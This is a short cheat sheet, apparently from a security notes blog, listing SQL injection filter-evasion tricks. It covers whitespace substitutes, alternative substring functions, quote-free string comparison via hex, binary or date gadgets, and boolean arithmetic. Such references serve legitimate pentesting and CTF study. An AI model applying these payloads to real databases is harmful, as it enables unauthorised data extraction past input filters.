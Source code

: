 ```yaml
---
title: ["SQL Injection Cheat Sheet"]
date: 2024-12-01 09:00:00 +0900
categories: [cheatsheet, sqli]
tags: [web, sqli, cheatsheet]
---
```


### White Space
```
%20  // SPACE
%09  // HORIZONTAL TAB
%0a  // LINE FEED
%0b  // VERTICAL TAB
%0c  // FORM FEED
%0d  // CARRIAGE RETURN
%a0  // NBSP
/**/
select(id)from(table)where(id=1)
```

### Substring
```
substr(id,1,1)
substr(id from 1 for 1)
mid(id,1,1)
right(left(id,1),1)
lpad(id,1,space(1))
reverse(right(reverse(id),1))
convert(id,char(1))
```

### String Compare without Single Quotation
```
admin=0x61646d696e                                 // using Hex
admin=0b0110000101100100011011010110100101101110   // using Binary
substr(monthname(from_unixtime(1)),2,1)='a'        // using Gadget
```

### Number Expression
```
True = 1
False = 0
True+True = 2
True-True = 0
```